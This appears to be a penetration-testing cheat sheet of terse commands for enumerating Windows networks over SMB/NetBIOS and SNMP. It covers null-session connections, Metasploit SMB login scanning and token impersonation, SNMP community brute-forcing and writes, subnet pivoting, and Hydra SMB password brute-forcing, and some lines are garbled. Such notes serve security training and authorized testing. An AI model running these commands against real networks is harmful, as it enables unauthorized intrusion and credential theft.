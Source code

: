 		nbtstat -A <target IP> - information gathering (Windows)
		nmblookup -A <target IP> - information gathering (Linux)
		nbtscan -v <target IP> - information gathering (Linux)
		nbtscan -v <IP>/subnet - scan entire subnet
		net view <IP> - list domains, computers, resources shared by a computer on the network
		net use <Drive Letter>: \\<IP>\C(or C$,IPC... etc.)
		smbclient -L <IP> - smb connect
		mount.cifs //<IP>/C /media/<Folder> user=,=pass= - navigate target shares
		net use \\<IP>\IPC$ "" /u:"" - Null Session
		winfo <IP> -n - flag -n means to try to establish a null session before gathering information
		DumpSec - Report>Select Computer >> \\<IP>
		enum4linux <IP>
		rpcclient -N -U "" <IP> - if establishes then "help"
		rpcclient > 'enum' for useful commands

		msf> use auxiliary/scanner/smb/smb_login

		nmap --script=smb-enum-users -p 445 <IP> --script-args=smbuser=<username>,smbpass=<password>

		msf> impersonate token:
			use incognito
			list_tokens -u
			impersonate_token <domain>\\<username>


	SNMP:

		UDP 161 - General Messages
		UDP 162 - Trap Messages

		snmpwalk:

			snmpwalk -v 2c <ip> -c public - v means version(2c) c means community string to use(public)
			snmp-mibs-downloader >> comment fourth line of /etc/snmp/snmp.conf (IF RETURNS OID NUMERICALLY)

		snmpset:

			snmpset -v 2c <ip> -c public (OID) s(for STRING) new@new.com


		Finding:

			1. find 139/445 open
			2. scan for 161 - nmap -sU -p 161 <ip>

		Finding communities:

			onesixtyone - onesixtyone -c /usr/share/doc/onesixtyone/dict.txt <ip>
			-or-
			nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes <ip>
			nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-* <ip>  (FIND ALL)


	Scan network from within a host:
		run autoroute -s <IP>/Subnet
		^Z
		use <IP>canner/portscan/tcp(or udp)


	Hydra brute SMB:
		hydra -L users.txt -P /usr/share/john/password.lst <IP> smb -f -V
	
